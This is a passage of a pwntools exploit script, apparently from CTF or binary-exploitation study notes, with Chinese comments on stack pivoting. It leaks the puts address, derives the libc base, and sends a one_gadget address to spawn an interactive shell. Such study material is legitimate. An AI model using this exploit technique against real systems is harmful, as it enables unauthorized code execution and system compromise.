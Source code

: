 ```python 
#payload2中的第一个p64(0)是去占个地方，因为栈迁移本身的特性，迁移后的第一个内存单元不执行
p.sendafter('k now!\n',payload2)
puts_addr=u64(p.recv(6).ljust(8,'\x00'))
libc_base=puts_addr-libc.symbols['puts']
one_gadget=libc_base+0x4f432
p.sendline(p64(one_gadget))#why p64 here #只要是发送地址 就要经过打包之后发送
p.interactive()
```
